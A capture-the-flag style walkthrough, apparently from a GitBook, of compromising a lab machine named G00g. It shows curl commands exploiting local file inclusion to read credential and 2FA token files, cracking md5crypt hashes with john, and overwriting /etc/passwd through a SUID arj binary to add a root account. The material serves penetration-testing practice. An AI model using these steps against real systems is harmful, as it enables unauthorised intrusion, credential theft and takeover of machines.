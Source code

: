 # G00g

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.202.144
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 22:36 +08
Nmap scan report for 192.168.202.144
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Web Enum --> Google Auth

Visiting port 80 requires credentials:

<figure><img src="../../../.gitbook/assets/image (578).png" alt=""><figcaption></figcaption></figure>

`admin:admin` works. Afterwards, we are just greeted by this:

<figure><img src="../../../.gitbook/assets/image (511).png" alt=""><figcaption></figcaption></figure>

In the comments, there's a hidden directory:

<figure><img src="../../../.gitbook/assets/image (999).png" alt=""><figcaption></figcaption></figure>

Googling this leads to some Apache 2FA thing using Google Authenticator:

{% embed url="https://github.com/itemir/apache_2fa" %}

The repository included this interesting bit here:

<figure><img src="../../../.gitbook/assets/image (575).png" alt=""><figcaption></figcaption></figure>

So within Google Authenticaotr, we can click the Plus sign in the corner:

<figure><img src="../../../.gitbook/assets/image (3294).png" alt=""><figcaption></figcaption></figure>

We can then enter this key:

<figure><img src="../../../.gitbook/assets/image (1205).png" alt=""><figcaption></figcaption></figure>

After adding this, we would get a OTP every 30 seconds as with normal Google Authenticator:

<figure><img src="../../../.gitbook/assets/image (946).png" alt=""><figcaption></figcaption></figure>

Keying in this 2FA token would grant us access to the web page:

<figure><img src="../../../.gitbook/assets/image (1342).png" alt=""><figcaption></figcaption></figure>

### LFI --> User Creds + Token

The website is obviously vulnerable to some form of exploit. When we run it and view the result, it shows us the results by reading from a file:

<figure><img src="../../../.gitbook/assets/image (1902).png" alt=""><figcaption></figcaption></figure>

This is very obviously vulnerable to LFI, and we can use that to read other files.

<figure><img src="../../../.gitbook/assets/image (357).png" alt=""><figcaption></figcaption></figure>

There weren't any SSH keys to read for the `fox` user. However, the Github repo did mention that there is an `apache_credentials` file somewhere on this machine.&#x20;

After some testing, I found in within the `/opt` directory:$ curl -H 'Cookie: 2FA\_Auth=junH2NR79pTrLiI800JewoWsESYCry6Xbz4oaIJ71VlhUKEHPNcdHsq4I6uK1CZUMKBz1ZExSDC0OcpmcFEyojXc823DIB9PA6ExXs' -G --data-urlencode 'view=/opt/apache\_2fa/apache\_credentials' http://192.168.202.144/spool/viewresult.php

```
<pre>admin:$apr1$pa.RhgPO$18S/xeIW24UvBgjVJJXiC1
fox:$apr1$JWr/q2vH$KXhhk03ukqkoXjbOIoUVp/
</pre><a href=javascript:history.back()>Back</a>
```

This can be cracked easily:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
THERESE          (?)     
1g 0:00:00:00 DONE (2023-07-06 22:55) 1.250g/s 257760p/s 257760c/s 257760C/s abhijeet..ROSALINDA
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

However, we cannot just SSH in:

```
$ ssh fox@192.168.202.144                   
(fox@192.168.202.144) Password: 
(fox@192.168.202.144) Verification code: 
```

The user has 2FA too! So we need to steal the `tokens.json` file as well.&#x20;

```
$ curl -H 'Cookie: 2FA_Auth=junH2NR79pTrLiI800JewoWsESYCry6Xbz4oaIJ71VlhUKEHPNcdHsq4I6uK1CZUMKBz1ZExSDC0OcpmcFEyojXc823DIB9PA6ExXs' -G --data-urlencode 'view=/opt/apache_2fa/tokens.json' http://192.168.202.144/spool/viewresult.php
<pre>{
  "admin": "ND4LKCSFMUQISO6CBZQATLDP",
  "fox": "RTW2ARWLJZRWUCN54UO22FDQ6I"
}
```

Afterwards, we can do the same thing with Google Authenticator to get a 2FA code to `ssh` in:

<figure><img src="../../../.gitbook/assets/image (1578).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

I ran a `linpeas.sh` to find possible vectors, and it picked up on one SUID binary:

```
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════
[+] SUID - Check easy privesc, exploits and write perms                                      
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
<TRUNCATED>
-rwsr-sr-x 1 root root       378K Feb 10  2019 /usr/bin/arj
<TRUNCATED>
```

GTFOBins has an entry for this:

{% embed url="https://gtfobins.github.io/gtfobins/arj/" %}

To exploit this, we can add a new `root` user. First, we can generate a new `passwd` file with our new user and hash, then overwrite it using `arj`.

```bash
$ openssl passwd -1 hello123
$1$IcHRZy7h$w3kdNeqGjC1Z50bTlQehS/

cp /etc/passwd passwd
echo 'ez:$1$IcHRZy7h$w3kdNeqGjC1Z50bTlQehS/:0:0::/root:/bin/bash' >> passwd
arj a "passwd" "passwd"
arj e "passwd.arj" "/etc"
```

<figure><img src="../../../.gitbook/assets/image (514).png" alt=""><figcaption></figcaption></figure>

Rooted!
